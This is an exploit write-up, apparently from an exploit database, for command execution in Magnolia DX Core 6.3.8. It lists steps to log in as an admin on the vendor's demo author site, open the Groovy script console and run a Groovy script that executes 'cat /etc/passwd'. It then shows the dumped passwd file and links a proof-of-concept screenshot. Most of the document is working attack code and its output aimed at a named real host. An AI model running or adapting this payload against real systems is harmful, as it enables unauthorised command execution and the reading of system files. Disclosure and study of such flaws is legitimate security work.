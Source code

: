 #### Exploit Title: Magnolia DX Core 6.3.8 - Command Injection  
#### Date: 05/16/2025  
#### Exploit Author: tmrswrr  
#### Version: 6.3.8  
#### Vendor home page: https://docs.magnolia-cms.com/home/  
#### Product: https://docs.magnolia-cms.com/product-docs/6.3/releases/release-notes-for-magnolia-cms-6.3.8/  
#### Demo: https://docs.magnolia-cms.com/product-docs/6.3/getting-started-with-magnolia/demo/  

1) Authenticate as an admin:  
   `https://demoauthor.magnolia-cms.com/.magnolia/admincentral`  
2) Navigate to **Development > Groovy > Add Script**  
3) Inject Groovy Script:

```groovy
def process = "cat /etc/passwd".execute()
def output = new StringBuffer()
process.consumeProcessOutput(output, System.err)
process.waitFor()

println "${output}: "
```
Result : 
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
```
![Proof-of-Concept Screenshot](https://raw.githubusercontent.com/capture0x/magnolia-rce/main/11.png)


